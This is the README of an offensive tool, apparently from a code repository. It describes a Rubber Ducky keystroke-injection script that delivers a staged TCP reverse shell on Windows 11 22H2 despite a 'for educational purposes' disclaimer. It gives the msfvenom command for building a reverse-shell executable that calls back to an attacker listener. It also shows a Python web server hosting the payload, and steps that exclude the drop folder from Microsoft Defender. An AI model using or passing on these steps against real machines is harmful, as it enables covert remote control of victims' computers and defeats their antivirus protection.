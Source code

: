 # README

This code does not promote or encourage any illegal activities. The content in this document is provided solely for
educational purposes and to create awareness.

# Staged TCP Reverse Shell with Rubber Ducky script within Windows Terminal

Since Microsoft pushed the latest 22H2 up-date for Windows 11 all Powershell reverse shell payloads have stopped working. Microsoft made changes to the way commandline tools are being opened. Everything will be opened in the new "Windows Terminal" and the "powershell -nop -noni -W hidden" commands are not working anymore.

This Reverse Shell script is tested on the latest Windows version and is working properly.

Requirements:

- The executable itself - Step 1
- HTTP server to host the shell executable - Step 2

## 1 - craft malicious executable

I'm using a Staged Meterpreter TCP reverse shell executable. To craft one you can use "msfvenom" with the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-LISTENER] LPORT=[PORT-LISTENER] -f exe > payload.exe`

Change the LHOST and LPORT to your own listener server.

## 2- ducky script and execute

Within your linux box navigate to the shell.exe location. I'm using a Python webserver to host the executable so I can use this URL in the script to download the exe file:

`python3 -m http.server 80`

Next, change the variables in the script:

- LINE 23 - 28 === VARIABLES
  Changing the paths is optional. I'm using C:\temp to create the folder and exclude it withint MS Defender. If you want a different path or executable name you can change them
- LINE 39 === URL
  This one is important because the target computers needs to download your crafted executable. Fill in the URL of your HTTP server and specify the folder/filename
